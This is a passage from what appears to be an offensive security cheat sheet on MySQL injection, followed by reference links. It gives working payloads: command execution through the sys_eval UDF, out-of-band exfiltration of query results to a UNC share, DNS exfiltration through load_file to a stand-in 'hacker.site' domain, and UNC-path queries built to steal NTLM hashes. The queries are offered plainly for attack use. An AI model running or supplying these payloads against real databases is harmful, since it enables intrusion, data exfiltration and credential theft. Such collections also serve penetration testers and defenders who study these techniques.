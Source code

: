 ## MYSQL UDF command execution

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MYSQL Out of band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS exfiltration

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM hash stealing

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## References

- [MySQL Out of Band Hacking - @OsandaMalith](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [[Sqli] Extracting data without knowing columns names - Ahmed Sultan @0x4148](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [Help по MySql инъекциям - rdot.org](https://rdot.org/forum/showpost.php?p=114&postcount=1)
- [SQL Truncation Attack - Warlock](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [HackerOne @ajxchapman 50m-ctf writeup - Alex Chapman @ajxchapman](https://hackerone.com/reports/508123)
- [SQL Wiki - netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [ekoparty web_100 - 2016/10/26 - p4-team](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Websec - MySQL - Roberto Salgado - May 29, 2013.](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)
